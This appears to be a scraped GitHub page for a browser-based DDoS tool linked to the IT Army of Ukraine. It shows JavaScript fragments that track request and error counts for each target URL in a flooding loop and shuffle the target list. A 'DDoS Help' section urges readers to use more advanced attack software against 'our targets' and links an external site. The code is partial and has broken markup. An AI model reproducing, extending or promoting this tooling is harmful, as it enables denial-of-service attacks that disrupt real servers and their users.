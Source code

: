 ```target list
                await sleep(1);
            }
        }

        // Update data for target n
        function updateTargetDisplay(n) {
            var url = urls[n];
            var {number_of_requests, number_of_errored_responses} = targets[url];
            var requests_cell = document.querySelector(`#target${n} .requests`);
            var errors_cell = document.querySelector(`#target${n} .errors`);
            requests_cell.innerText = number_of_requests;
            errors_cell.innerText = number_of_errored_responses;
            document.querySelector("#totalrequests").innerText = totalrequests;
            document.querySelector("#totalerrors").innerText = totalerrors;
        }

        // Shuffle array order before starting
        for (let i = urls.length - 1; i > 0; i--) {
            const j = Math.floor(Math.random() * (i + 1));
            [urls[i], urls[j]] = [urls[j], urls[i]];
        }

        // Create div for each target
        for (var i=0; i<urls.length; i++) {
            statRow.innerHTML += `
                <div class="col-lg-3 col-md-4 col-sm-6" id="target${i}">
                    <h4>${urls[i]}</h4>
                    <table class='status'>
                        <tr><td>requests:</td><td class="requests">0</td></tr>
                        </tr><td>errors:</td><td class="errors">0</td></tr>
                    </table>
                </div>
            `;
        }

        // Show warning window
        myModal.toggle();

    
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'UA-85513613-1');
```

## DDoS Help
If you are at a device with more control over like a Computer, you can use much more advance DDoS techniques, this allows you to have your computer generate complex payloads of data, abstract query’s and all kinds of other server abusing craziness.
In this section we’ll detail all kinds of useful software that can be used to attack our targets from.  
https://www.helpukr.xyz/ddos-help.htm
## IT Army
The IT Army of Ukraine is made up of volunteers around the world, it was announced during the first days of Russia’s invasion and backed by the Ukrainian government. Since then millions of people from around the world have joined to help make a dent in the balance of Russia’s war.